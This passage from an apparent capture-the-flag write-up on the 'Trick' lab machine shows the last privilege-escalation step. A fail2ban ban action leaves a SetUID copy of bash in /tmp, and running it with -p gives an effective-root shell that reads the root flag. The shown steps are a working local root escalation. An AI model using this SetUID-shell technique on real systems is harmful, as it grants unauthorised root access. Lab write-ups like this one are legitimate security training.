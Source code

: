 I’ll notice that this time I don’t get blocked. That’s because even when the `actionban` runs, it doesn’t block my IP in `iptables`, but rather creates a SetUID `bash`. That file exists:

```

michael@trick:/etc/fail2ban$ ls -l /tmp/0xdf
-rwsrwxrwx 1 root root 1168776 Oct 15 18:17 /tmp/0xdf

```

To trigger this, I’ll need to run it with `-p` (see [this video](https://www.youtube.com/watch?v=XvfpOIAMx6Y) for details on uid vs euid and why I need `-p` for `bash`). That gives a shell (with effective uid) as root:

```

michael@trick:/etc/fail2ban$ /tmp/0xdf -p
0xdf-5.0# id
uid=1001(michael) gid=1001(michael) euid=0(root) groups=1001(michael),1002(security)

```

And from there I can read `root.txt`:

```

0xdf-5.0# cat /root/root.txt
3c3ef61f************************

```